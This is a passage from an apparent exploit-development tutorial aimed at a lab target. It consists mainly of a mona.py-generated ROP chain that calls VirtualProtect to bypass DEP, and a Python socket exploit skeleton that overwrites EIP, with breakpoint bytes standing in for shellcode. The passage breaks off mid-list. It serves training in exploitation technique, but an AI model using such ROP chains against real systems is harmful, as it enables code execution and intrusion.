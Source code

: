 ```python
      0x74fa1110,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ecx:---]
      0x7689fb57,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x75285e78,  # &Writable location [MSCTF.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x76df7643,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x768a1645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x758b9b4c,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x758ec2a0,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
```


We need to modify the exploit to overwrite EIP with our ROP chain rather than the JMP ESP instruction and replace the C's with `\xcc` (breakpoint) which will allow us to hit a breakpoint right after executing our ROP chain.


```python
import socket
import struct

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999

def create_rop_chain():
        # rop chain generated with mona.py - www.corelan.be
        rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x76a172f0,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7521fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_ebp:---]
        0x76e7c5ba,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]

        #[---INFO:gadgets_to_set_ebx:---]
        0x76a342f9,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x768a1643,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
        0x7521f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_edx:---]
        0x7527ea50,  # POP EAX # RETN [MSCTF.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76963193,  # NEG EAX # RETN [user32.dll] ** REBASED ** ASLR
        0x74fa1110,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_ecx:---]
        0x7689fb57,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR
        0x75285e78,  # &Writable location [MSCTF.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_edi:---]
        0x76df7643,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        0x768a1645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_eax:---]
```